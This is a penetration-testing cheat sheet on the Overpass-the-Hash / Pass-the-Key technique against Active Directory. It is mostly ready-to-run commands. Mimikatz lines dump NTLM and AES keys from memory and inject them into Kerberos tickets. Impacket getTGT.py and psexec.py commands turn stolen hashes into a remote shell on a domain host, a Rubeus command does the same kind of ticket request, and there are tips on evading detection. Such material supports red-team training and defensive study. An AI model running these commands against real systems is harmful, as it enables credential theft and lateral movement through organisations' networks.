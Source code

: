 # Overpass the Hash / Pass the Key

This attack aims to **use the user NTLM hash to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

In the case of over-pass-hash, we are generating the things that would get us that original TGT in memory on the windows client then fronting up to the domain controller for a service ticket to the thing we want access to, and automatically getting the TGT back as part of the exchange so that we can go on and request all access we want to other things.

{% hint style="info" %}
In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.
{% endhint %}

## <mark style="color:red;">Grab the Target User Hash</mark>

In the target machine run this and dump the NTLM hash of the 'target-user' account:

```
privilege::debug
sekurlsa::ekeys
Sekurlsa::logonpasswords
```

With the help of ekeys you will able to fetch all keys NTLM (RC4), AES128, AES256 key







## <mark style="color:red;">Overpass the Hash</mark>

So with the help of sekurlsa::pth command we try to use ase256 key or aes128 for Kerberos ticket, it is difficult to detect because it is the more common and secure key used in encryption.

Using our new hash, we issue the command:

```
sekurlsa::pth /user:target-user /domain:megabank.local /ntlm:89551acff8895768e489bb3054af94fd

# example
sekurlsa::pth /user:Administrator /domain:ignite.local /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:ignite.local /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c
```

#### If you will use NTLM (RC4), ASE128, ASE256 simultaneously for injecting into Kerberos ticket, this step is more secure and undetectable in the network.

```
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b
```

#### We should be able to now move from our shell that was running as whomever , to a shell with 'target-user' credentials.

we can use getTGT.py script from impacket toolkit as well:

### <mark style="color:orange;">Impacket</mark>

```
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**. You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

```
python getTGT.py -dc-ip 192.168.1.105 -hashes :32196b56ffe6f45e294117b91a83bf38 ignite.local/Administrator
```

with the help of above command, you will be able to request Kerberos authorized ticket in the form of ccache whereas with the help of the following command you will be able to inject the ticket to access the resource.

```
export KRB5CCNAME=Administrator.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/Administrator@WIN-S0V7KMTVLD2.ignite.local
```

### <mark style="color:orange;">Rubeus</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

```
Rubeus.exe asktgt /domain:igntie.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```
